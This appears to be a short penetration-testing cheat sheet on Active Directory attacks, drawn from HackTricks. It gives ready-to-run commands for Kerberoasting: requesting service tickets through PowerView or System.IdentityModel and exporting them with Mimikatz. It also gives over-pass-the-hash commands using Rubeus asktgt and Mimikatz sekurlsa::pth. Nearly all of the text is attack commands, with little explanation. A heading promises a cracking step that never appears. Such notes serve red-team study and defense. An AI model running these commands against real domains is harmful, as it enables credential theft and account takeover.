 https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast

> Kerberoasting a technique in which the passwords of service accounts are cracked. Kerberoasting is mainly efficient if user accounts are used as service accounts. A TGS ticket can be requested for this user, where the TGS is encrypted with the NTLM hash of the user's plaintext password. If the service account is a user account created by the administrator, there is a greater chance that this ticket can be cracked, and therefore the password for the service will be determined. This TGS ticket can be cracked offline. Nidem's kerberoast [https://github.com/nidem/kerberoast] repository is used for the attack.
```powershell
# To see existing tickets
klist

# Remove all tickets
klist purge
```

### PowerView
Request a kerberos service ticket for specified SPN.  By default the output is in Hashcat format
```powershell
Request-SPNTicket -SPN "CIFS/target.domain.local" [-OutputFormat JTR]
```
### Manually
By doing it manually, ticket is generated, it requires to be extracted to crack the hash
```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "CIFS/target.domain.local"
```

Dump the tickets out
```text
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

Now, crack ’em
### Over-Pass the Hash
#### Rubeus
```powershell
Rubeus.exe asktgt /user:USER < /rc4:HASH | /aes128:HASH | /aes256:HASH> [/domain:DOMAIN] [/opsec] /ptt
```
#### Mimikatz
```powershell
sekurlsa::pth /user:Administrator /domain:target.domain.local < /ntlm:hash | /aes256:hash> /run:powershell.exe
```